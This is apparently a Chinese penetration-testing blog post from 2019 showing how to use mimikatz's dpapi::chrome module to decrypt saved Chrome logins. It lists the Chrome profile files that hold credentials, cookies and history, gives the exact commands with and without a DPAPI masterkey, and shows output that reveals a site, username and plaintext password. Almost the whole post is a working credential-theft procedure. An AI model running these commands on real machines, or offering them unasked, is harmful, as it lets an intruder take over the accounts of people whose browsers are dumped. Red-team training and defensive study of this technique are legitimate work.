 ```yaml
---
title: "导出 Chrome 中的凭据与信息"
date: 2019-07-09T00:00:00+08:00
draft: false
tags: ["chrome",'mimikatz']
categories: ["内网渗透"]
author: "X1r0z"

# weight: 1  # Top page

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: false
autoCollapseToc: false
---
```


因为之前的文章关于 dpapi 和 masterkey 的说明已经给出了, 故本文就不再赘述.

mimikatz 的 dpapi 模块支持一键导出 chrome 数据, 包括登录信息, 历史记录, cookies 等.

<!--more-->

chrome 数据存放在 `%localappdata%\Google\Chrome\User Data\Default\` 目录中.

其中几个比较重要的文件.

```
Bookmarks
Login Data
Cookies
History
```

以 `Login Data` 为例.

```
mimikatz # dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Login Data"

URL     : https://passport.aliyun.com/ ( https://passport.aliyun.com/mini_login.htm )
Username: admin
```

指定 masterkey 参数.

```
mimikatz # dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Login Data" /masterkey:7daaec86a9ff317da98d8fa955bd9112b2adfd864552d2e64066820c42daa8a37ba8cf0b9f35d99b0b5d3d3e7ff6bbfe0a0b5e710473fb3a3e7aee056f2b6393

URL     : https://passport.aliyun.com/ ( https://passport.aliyun.com/mini_login.htm )
Username: admin
 * volatile cache: GUID:{f07bdf43-6d13-4957-94c0-bc0094da1667};KeyHash:f7d1c2f24e1d3a27c3becf10ed42acd890eb5e14
 * masterkey     : 7daaec86a9ff317da98d8fa955bd9112b2adfd864552d2e64066820c42daa8a37ba8cf0b9f35d99b0b5d3d3e7ff6bbfe0a0b5e710473fb3a3e7aee056f2b6393
Password: 123456
```